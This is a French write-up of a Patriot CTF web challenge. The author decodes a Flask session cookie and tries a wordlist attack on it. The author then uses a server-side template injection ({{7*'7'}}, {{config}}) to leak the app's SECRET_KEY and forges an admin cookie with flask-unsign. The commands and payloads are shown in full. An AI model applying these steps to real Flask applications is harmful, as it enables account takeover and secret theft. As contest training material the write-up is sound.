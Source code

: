 # Patriot CTF

## Web

### Not So Secret

**Difficulté :** Moyen

**Enoncé :** Je suis en train de créer la prochaine grande plateforme de réseaux sociaux, mais j'ai l'habitude de mettre en place des logiciels non sécurisés.

Si vous pouvez vous connecter à l'utilisateur administrateur, je vous donnerai le flag.

Quelqu'un a piraté mon site après que j'ai lu son message, donc je ne lis plus les DM qui me sont envoyés ! > :( 

En plus de cela, j'impose un filtre de caractères spéciaux encore plus sévère parce que je ne sais pas vraiment comment patcher mon code.

p.s. Pour vous faire gagner du temps, n'essayez pas d'obtenir un reverse shell

***

En se connectant au site, on peut apercevoir que le cookie de session est un cookie Flask :

```
.eJwlzjEOwjAMBdC7eGaI7X4n6WVQnNiCtaUT4u4g8U7w3nTPI84H7a_jihvdn4t2mqEo3vsaYEHFcuUsHdgcm3plzEB6baHSCrqYhLFnaI7KGsk8UYRzYlpzF-TiluI2TIaoDNWiLS2kcYZV3mou6CpjlCaVfpHrjOO_Ufp8AYinLpY.YmzqWA.f1mFmMrseT1CpljXeYZAInT8c_Q
```

Je commence par décoder le cookie avec **flask-unsign** :

```
flask-unsign --decode --cookie 'eJwlzjEOwjAMBdC7eGaI7X4n6WVQnNiCtaUT4u4g8U7w3nTPI84H7a_jihvdn4t2mqEo3vsaYEHFcuUsHdgcm3plzEB6baHSCrqYhLFnaI7KGsk8UYRzYlpzF-TiluI2TIaoDNWiLS2kcYZV3mou6CpjlCaVfpHrjOO_Ufp8AYinLpY.YmzqWA.f1mFmMrseT1CpljXeYZAInT8c_Q'
```

Valeur du cookie :

```
{'_fresh': True, '_id': 'ce350b99da512575db31f09554b543b715ce5fb78e328059262e61bfe3fa713ef11c5021fc5c68bb25fd18f2b6a62a232a33038f6e281fe67147fd53d0aa0827', '_user_id': '2'}
```

On peut constater que la valeur `'_user_id'` est à 2.
Il est fort probable que la valeur 1 soit le compte administrateur.

J'essaye par la suite de bruteforce le cookie par attaque de dictionnaire mais non-concluant :

```
flask-unsign --unsign --cookie ".eJwlzjEOwjAMBdC7eGaI7X4n6WVQnNiCtaUT4u4g8U7w3nTPI84H7a_jihvdn4t2mqEo3vsaYEHFcuUsHdgcm3plzEB6baHSCrqYhLFnaI7KGsk8UYRzYlpzF-TiluI2TIaoDNWiLS2kcYZV3mou6CpjlCaVfpHrjOO_Ufp8AYinLpY.YmzqWA.f1mFmMrseT1CpljXeYZAInT8c_Q" --wordlist ~/rockyou.txt --no-lit
eral-eval
```

Il nous manque la clé pour signer notre cookie Flask, je décide donc de regarder côté serveur web pour récupérer cette valeur.

Sur la page d'envois de message, je remarque qu'une faille SSTI (Server Side Template Injection) est exploitable grâce à un simple payload : `{{7*'7'}}`

![image](https://user-images.githubusercontent.com/49941629/166097821-b3fa5a63-abac-40f1-bfe5-00b2e5cae5ab.png)

{{config}}

`Just sent your message: <Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'qHIMoRzDyjmWXmtOVYXRUomyOiBaNd', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': False, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'SQLALCHEMY_DATABASE_URI': 'sqlite:///db.sqlite', 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'UPLOAD_FOLDER': '/app/app/uploads', 'SQLALCHEMY_BINDS': None, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_POOL_SIZE': None, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_POOL_RECYCLE': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_ENGINE_OPTIONS': {}}>`


`flask-unsign --sign --cookie "{'_fresh': True, '_id': 'ce350b99da512575db31f09554b543b715ce5fb78e328059262e61bfe3fa713ef11c5021fc5c68bb25fd18f2b6a62a232a33038f6e281fe67147fd53d0aa0827', '_user_id': '1'}" --secret 'qHIMoRzDyjmWXmtOVYXRUomyOiBaNd'`

`.eJwlzjEOwjAMBdC7eGaI7X4n6WVQnNiCtaUT4u4g8U7w3nTPI84H7a_jihvdn4t2mqEo3vsaYEHFcuUsHdgcm3plzEB6baHSCrqYhLFnaI7KGsk8UYRzYlpzF-TiluI2TIaoDNWiLS2kcYZV3mou6CpjlCaVfpHrjOO_Yfp8AYihLpQ.Ymztig.yz-w4K7dpoOZxHa5NmpqoMF9WPQ`

![image](https://user-images.githubusercontent.com/49941629/166097942-b0536777-d785-4ad4-a6d1-fc605fad6685.png)

![image](https://user-images.githubusercontent.com/49941629/166097953-0f4dcb33-87fe-4fc6-bf3f-efcbc8217dd3.png)
